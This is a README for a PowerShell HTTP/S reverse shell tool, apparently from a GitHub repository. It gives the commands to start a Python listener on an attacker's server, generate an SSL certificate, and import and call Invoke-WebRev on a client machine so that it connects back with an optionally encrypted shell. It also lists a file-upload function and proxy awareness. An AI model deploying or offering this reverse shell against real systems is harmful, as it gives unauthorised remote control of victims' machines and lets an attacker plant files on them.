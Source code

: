 # Powershell HTTP/S Reverse Shell

##  server.py - server

![Alt text](images/revshell.jpg "Server")

On your server:
```
    python3 server.py IP PORT
    
    For SSL Reverse Shell:
        openssl genrsa -out private.pem 2048
        openssl req -new -x509 -key private.pem -out cacert.pem -days 9999
        python3 server.py --ssl IP PORT
```

## Invoke-WebRev.ps1 - client

On your client:
```
Import-Module .\Invoke-WebRev.ps1
```
```
Reverse Shell without encryption:
    Invoke-WebRev -ip IP -port PORT
```
```
Reverse Shell with encryption:
    Invoke-WebRev -ssl -ip IP -port PORT
```

# Extra functions
```
Upload
    Usage: upload /src/path/file C:\dest\path\file
```

# Features
    - Proxy Aware
    - Upload Function

# Future features
    - Autocomplete
    - Download function
